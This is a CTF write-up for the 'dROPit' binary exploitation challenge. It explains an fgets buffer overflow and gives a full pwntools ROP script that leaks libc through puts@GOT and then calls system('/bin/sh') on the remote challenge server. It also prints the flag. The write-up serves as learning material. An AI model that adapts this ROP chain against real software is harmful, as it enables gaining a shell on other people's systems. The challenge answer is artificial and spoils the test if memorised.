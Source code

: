 # dROPit

Category: Binary Exploitation, ropchain
Created: Nov 5, 2020 8:41 PM
Points: 300
Solved: Yes
Subjective Difficulty: 🔥🔥

# WriteUp:

## 🔎 Research:

We're given a dynamicly linked binary ELF file. 

## 📝 Vulnerability Description:

The program calls a vulnerable `fgets` function that could lead to a [BufferOverflow](https://www.notion.so/Binary-exploitation-6bb56af09d9f40d38b75dd4f66f74d27). 

## 🧠 Exploit Development:

We use the [ROP technique](https://www.notion.so/ROP-1fe7ddaabcfc44d6ae73745377e9007a) to call `system("/bin/sh")` . Though no useful ROP gadgets to execute syscalls are found, i decided to leak libc_puts address in [GOT](https://www.notion.so/GOT-e3101944e4cb498c9dcd337940fcecad) by returning to puts and populating rdi before through a founded gadget. The Gadgets are found with ropper.  With the leaked puts address i calculatet the libc_base address and from there the system call and `"/bin/sh"` string stored also in libc. Libc version and offsets are found through libc-database:

[libc-database](https://libc.rip/)

## 🔐 Exploit Programm:

```python
from pwn import *

ret = 0x40101a
pop_rdi = 0x401203
main_addr = 0x401146
puts_got = 0x403fc8
puts_plt = 0x401030

class Situation():
	@classmethod
	def get_payload2(cls, puts_addr):
		libc_base = puts_addr - cls.puts_offset
		print("libc_base: {0}".format(hex(libc_base)))
		system_addr = libc_base + cls.system_offset
		print("system_addr: {0}".format(hex(system_addr)))
		bin_sh_string_addr = libc_base + cls.bin_sh_string_offset
		print("bin_sh_string_addr: {0}".format(hex(bin_sh_string_addr)))
		return b"A"*48+b"BBBBBBBB"+p64(pop_rdi)+p64(bin_sh_string_addr)+p64(ret)+p64(system_addr)

class Remote(Situation):
	puts_offset = 0x80d90
	system_offset = 0x503c0
	bin_sh_string_offset = 0x1ae41f

class Local(Situation):
	puts_offset = 0x875a0
	system_offset = 0x55410
	bin_sh_string_offset = 0x1b75aa

payload1 = b"A"*48+b"BBBBBBBB"+p64(pop_rdi)+p64(puts_got)+p64(puts_plt)+p64(main_addr)

#p = process("./dropit")
p = remote("challenges.ctfd.io", 30261)

p.recvline() # ?
p.sendline(payload1)
puts_addr = int.from_bytes(p.recvline(keepends=False), "little")
print("puts_addr: {0}".format(hex(puts_addr)))
#p.interactive()

payload2 = Remote.get_payload2(puts_addr)

p.recvline() # ?
p.sendline(payload2)
p.interactive()
```

## 💥 Run Exploit:

![dROPit%20f012cc9d6bed46878f104d020e553496/Successfull_exploit.png](dROPit%20f012cc9d6bed46878f104d020e553496/Successfull_exploit.png)

**FLAG:  nactf{r0p_y0ur_w4y_t0_v1ct0ry_698jB84iO4OH1cUe}**

## 🗄️ Summary / Difficulties:

This was a basic ROP exploitation challenge. Finding right libc version was kind of difficult cause local libc database was not up-to-date. 

→ Next times use online libc_database

## 🗃️ Further References:

- [GOT](https://www.notion.so/GOT-e3101944e4cb498c9dcd337940fcecad)
- [ROP](https://www.notion.so/ROP-1fe7ddaabcfc44d6ae73745377e9007a)
- [Stack based Buffer Overflows](https://www.notion.so/Stack-based-Buffer-Overflows-8659881fbfb141d0afaca02b247e123d)

## 🔨 Used Tools:

- [Pwndbg](https://www.notion.so/Pwndbg-2c0c6540dc5444559bb84545f6dbbd48)
- [Ropper](https://www.notion.so/Ropper-711ce6c597944ae38e77750c365d04ff)
- [Libc-Database](https://www.notion.so/Libc-Database-1299ef3982f34cc7afe0c7a03109172a)
- pwntools

# Topics:

---

# Notes / Ideas:

- **Leak libc address with puts@plt and then return to main → start again with call to system**
    - **use pop rdi gadget to leak __libc_start_main**
- ret2dl_resolve → aufwendig
- ret2csu to populate registers and jump to puts
    - leaking libc address and then calling system
    - read /bin/sh string through fgets in data segment and calling execve syscall (execve("/bin/sh\0", NULL, NULL))